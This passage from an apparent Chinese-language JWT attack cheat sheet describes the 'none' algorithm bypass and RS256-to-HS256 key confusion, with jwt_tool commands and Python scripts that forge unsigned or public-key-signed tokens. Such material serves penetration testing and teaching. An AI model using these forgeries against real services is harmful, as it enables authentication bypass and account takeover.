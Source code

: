 ```ps1
无效的签名。期望 SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c，得到 9twuPVu9Wj3PBneGw1ctrf3knr7RX12v-UwocfLhXIs
无效的签名。期望 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgB1Y=，得到 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgBOo=
```

### JWT 签名 - 无算法（CVE-2015-9235）

JWT 支持用于签名的 `None` 算法。这可能是为了调试应用程序而引入的。然而，这可能对应用程序的安全性产生严重影响。

无算法变体：

- `none`
- `None`
- `NONE`
- `nOnE`

要利用此漏洞，您只需解码 JWT 并更改用于签名的算法。然后您可以提交您的新 JWT。但是，除非您**删除**签名，否则这不会起作用。

或者，您可以修改现有的 JWT（小心过期时间）

- 使用 [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X a
    ```

- 手动编辑 JWT

    ```python
    import jwt

    jwtToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'
    decodedToken = jwt.decode(jwtToken, verify=False)       

    # 解码令牌后再使用类型 'None' 进行编码
    noneEncoded = jwt.encode(decodedToken, key='', algorithm=None)

    print(noneEncoded.decode())
    ```

### JWT 签名 - 密钥混淆攻击 RS256 到 HS256（CVE-2016-5431）

如果服务器代码期望 "alg" 设置为 RSA 的令牌，但收到 "alg" 设置为 HMAC 的令牌，它可能会在验证签名时无意中将公钥用作 HMAC 对称密钥。

因为公钥有时可以被攻击者获取，攻击者可以通过将头中的算法修改为 HS256 并使用 RSA 公钥来签署数据。当应用程序使用相同的 RSA 密钥对作为其 TLS 网站服务器时：`openssl s_client -connect example.com:443 | openssl x509 -pubkey -noout`

> 算法 **HS256** 使用秘密密钥对每条消息进行签名和验证。
> 算法 **RS256** 使用私钥对消息进行签名，并使用公钥进行认证。

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```
